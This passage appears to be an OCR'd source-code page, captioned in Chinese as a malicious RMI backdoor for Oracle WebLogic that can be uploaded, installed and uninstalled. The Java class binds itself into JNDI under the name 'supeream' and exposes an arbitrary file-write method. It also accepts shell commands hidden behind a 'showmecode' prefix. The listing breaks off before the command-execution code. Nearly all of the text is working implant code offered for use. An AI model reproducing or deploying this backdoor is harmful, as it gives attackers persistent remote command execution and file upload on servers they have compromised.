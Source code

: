 注册恶意rmi后门代码如下（这个后门可以上传，安装和卸载）

```JAVA
package com.supeream.payload;

import java.io.BufferedReader;
import java.io.FileOutputStream;
import java.io.InputStreamReader;
import java.rmi.RemoteException;
import java.util.ArrayList;
import java.util.List;
import javax.naming.Context;
import javax.naming.InitialContext;
import weblogic.cluster.singleton.ClusterMasterRemote;

public class RemoteImpl implements ClusterMasterRemote {
    public RemoteImpl() {
    }

    public static void main(String[] args) {
        try {
            RemoteImpl remote = new RemoteImpl();
            if (args.length == 2 && args[0].equalsIgnoreCase("blind")) {
                remote.getServerLocation(args[1]);
            } else if (args.length == 1) {
                Context ctx = new InitialContext();
                if (args[0].equalsIgnoreCase("install")) {
                    ctx.rebind("supeream", remote);
                } else if (args[0].equalsIgnoreCase("uninstall")) {
                    ctx.unbind("supeream");
                }
            }
        } catch (Exception var3) {
        }

    }

    public void setServerLocation(String cmd, String args) throws RemoteException {
    }

    public static void uploadFile(String path, byte[] content) {
        try {
            FileOutputStream fileOutputStream = new FileOutputStream(path);
            fileOutputStream.write(content);
            fileOutputStream.flush();
            fileOutputStream.close();
        } catch (Exception var3) {
        }

    }

    public String getServerLocation(String cmd) throws RemoteException {
        try {
            if (!cmd.startsWith("showmecode")) {
                return "guess me?";
            } else {
                cmd = cmd.substring(10);
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }

                List<String> cmds = new ArrayList();
```